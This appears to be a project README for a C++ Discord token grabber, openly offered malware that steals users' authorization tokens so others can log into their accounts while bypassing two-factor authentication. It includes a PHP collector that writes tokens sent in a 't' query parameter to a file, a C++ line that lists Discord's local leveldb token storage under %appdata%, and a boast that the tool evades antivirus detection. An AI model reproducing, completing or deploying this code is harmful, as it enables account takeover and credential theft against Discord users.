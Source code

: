 # Discord Token Grabber
A Discord token grabber written in C++.

This is a "token" or authorization key finder for the platform "Discord".

You can use "tokens" to login to other people's accounts with the authorization key bypassing 2fa.

# Web
The web code is very basic and tokens can be accessed by anyone so I would recommend changing it.
```php
<?php

$file = fopen("tokens.txt", "w");
if(isset($_GET["t"])){
	fwrite($file, $_GET["t"]);
}

?>
```

# Client
This code is not very well written as I'm using C++/14 and filesystem is still experimental.
As you can see here it's a hardcoded solution but it works fine for this purpose.
```cpp
auto files = split(exec("cd %appdata%/discord/Local Storage/leveldb && dir /n /b *"), "\n");
```

# Detection
Since it's fresh and not copied it is currently undetected

![Detection](https://antiscan.me/images/result/huIT9opQ9Off.png)
